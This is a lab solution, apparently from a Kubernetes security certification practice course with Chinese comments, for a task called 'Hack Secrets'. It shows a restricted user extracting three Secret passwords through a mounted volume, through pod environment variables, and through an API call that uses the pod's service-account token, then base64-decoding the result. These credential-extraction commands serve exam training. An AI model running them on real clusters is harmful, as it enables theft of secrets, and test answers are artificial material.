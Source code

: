 ## ****Question 12 | Hack Secrets****

> *Task weight: 8%*

You're asked to investigate a possible permission escape in *Namespace* `restricted`. The context authenticates as user `restricted` which has only limited permissions and shouldn't be able to read *Secret* values.

Try to find the password-key values of the *Secrets* `secret1`, `secret2` and `secret3` in *Namespace* `restricted`. Write the decoded plaintext values into files `/opt/course/12/secret1`, `/opt/course/12/secret2` and `/opt/course/12/secret3`.

参考

解答

```bash
# 这道就是查找泄漏的秘钥
# 秘钥1，通过查看所有pod过滤secret
kubectl -n restricted get pod -o yaml | grep -i secret
kubectl -n restricted exec pod1-fd5d64b9c-pcx6q -- cat /etc/secret-volume/password > /opt/course/12/secret1 
# 秘钥2 通过查看所有pod env 过滤PASS
kubectl -n restricted exec pod2-6494f7699b-4hks5 -- env | grep PASS
PASSWORD=an-amazing
echo an-amazing > /opt/course/12/secret2
# 秘钥3 尝试了是否有挂在了ServiceAccount，通过默认引用的证书文件访问API获取secret
kubectl -n restricted exec -it pod3-748b48594-24s76 -- sh

mount | grep serviceaccount
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
ls /run/secrets/kubernetes.io/serviceaccount
ca.crt     namespace  token
# curl 接口查询restricted命名空间的秘钥
# 这里参考API访问集群：<https://kubernetes.io/zh-cn/docs/tasks/administer-cluster/access-cluster-api/>
# 另外参考了静态加密secret数据：<https://kubernetes.io/zh-cn/docs/tasks/administer-cluster/encrypt-data/>
curl <https://kubernetes.default/api/v1/namespaces/restricted/secrets> -H "Authorization: Bearer $(cat /run/secrets/kubernetes.io/serviceaccount/token)" -k
...
    {
      "metadata": {
        "name": "secret3",
        "namespace": "restricted",
...
          }
        ]
      },
      "data": {
        "password": "cEVuRXRSYVRpT24tdEVzVGVSCg=="
      },
      "type": "Opaque"
    }
...
# 看到密码字段进行解密
echo cEVuRXRSYVRpT24tdEVzVGVSCg== | base64 -d > /opt/course/12/secret3

```
